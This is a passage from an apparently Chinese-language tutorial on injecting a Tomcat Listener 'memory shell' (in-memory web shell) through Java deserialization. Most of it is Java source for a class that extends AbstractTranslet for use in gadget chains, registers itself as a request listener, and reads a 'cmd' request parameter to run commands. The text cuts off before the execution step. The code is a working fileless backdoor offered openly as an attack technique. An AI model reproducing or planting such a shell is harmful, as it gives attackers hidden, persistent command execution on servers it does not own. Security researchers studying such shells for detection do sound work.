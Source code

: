 ### 反序列化注入Listener内存马

编写`TomcatEchoInjectListener`注入内存马类
```java
package com.memoryshell;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.http.HttpServletRequest;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.Field;

/**
 * Created by dotast on 2022/11/18 11:20
 */
public class TomcatEchoInjectListener extends AbstractTranslet implements ServletRequestListener {

    public TomcatEchoInjectListener() throws Exception{
        WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        StandardContext standardContext = (StandardContext)webappClassLoaderBase.getResources().getContext();
        standardContext.addApplicationEventListener(this);
    }


    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {

    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();

        try{
            String cmd = req.getParameter("cmd");
            if(cmd != null){
                Field field = req.getClass().getDeclaredField("request");
                field.setAccessible(true);
                org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) field.get(req);
```